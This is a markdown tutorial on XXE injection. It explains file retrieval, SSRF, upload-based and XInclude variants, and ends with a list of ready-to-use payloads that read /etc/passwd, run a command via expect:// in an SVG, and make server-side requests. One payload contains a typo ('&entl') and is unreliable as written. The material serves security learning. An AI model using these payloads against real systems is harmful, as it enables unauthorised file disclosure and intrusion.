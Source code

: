 # XML external entity (XXE) Injection
XXE injection is a web security vulnerability that allows us to interfere with the processing of XML data. It often allows us to view files on the server filesystem, and to interact with any back-end or external systems that the application itself can access.

Types of XXE attacks
- `XXE to retrieve files` An external entity is containing the contents of a file, and is returned in the response.
- `XXE to perform SSRF` An external entity is defined based on a URL to a back-end system.
- `Blind XXE exfiltrate data out-of-band` sensitive data is transmitted from the application server to a system that the attacker controls.
- `Blind XXE to retrieve data via error messagess` we Can trigger a parsing error message containing sensitive data.

<!-- -->

				XXE to retrieve files
performing an XXE injection attack that retrieves an arbitrary file from the server you need to modify the submitted XML in two ways:

- Introduce (or edit) a `DOCTYPE` element that defines an external entity containing the path to the file.
- Edit a data value in the XML that is returned in the application's response, to make use of the defined external entity.

<!-- -->
Example:

A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)
Their is no defense so we can exploit this by using the following XXE payload
![](XXE2.png)
The payload defines a external entity `&xxe;`. Whose value is in `/etc/passwd` file and uses the entity within `productId` value.This causes the respone to include the contents of `/etc/passwd`
![](XXE3.png)

			XXE via file upload
Sometimes Applications allow users to upload files which are then processed server-
side

 Common XML based file formats:
 - `SVG`
 - `DOCX`
 - `XLSX`

<!-- -->
Example:

Create a `SVG` image with the payload

Upload the image Getting a similar response
![](XXE7.png)


			XXE via modified content type
Most post requests use a default content type that is generated by HTML forms, such as `application/x-www-form-urlencoded`. Some sites expect to receive requests in this format but tolerate other content types, including XML.
			
Example:
A normal request the following:
![](XXE8.png)
You might be able to submit the following with the same result:
![](XXE9.png)
			
			XXE to SSRF

Example:
A shopping application checks the stock of products by submitting the following XML
![](XXE1.png)
The external entity will cause the server to make a back-end HTTP request to an internal system within the websites infrastructure.
![](XXE4.png)

					XInclude	
Some applications receive client-submitted data, embed it on the server-side into an XML document, and then parse the document

Example:
Packet being sent 
![](XXE5.png)
We don't control the entire XML document and so cannot define or modify a `DOCTYPE` element. However, we can use `XInclude`
![](XXE6.png)

					XXE payloads

## Retrieving files:
```
<!--?xml version="1.0" ?-->
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<userInfo>
 <Name>&entl</Name>
</userInfo>
```
## XXE inside SVG
```
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
    <image xlink:href="expect://ls"></image>
</svg>
```
## XXE to SSRF
```
<?xml version="1.0"?>
<!DOCTYPE foo [  
<!ELEMENT foo (#ANY)>
<!ENTITY xxe SYSTEM "https://www.site.com/text.txt">]><foo>&xxe;</foo>
```
## XInclude
`<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>`
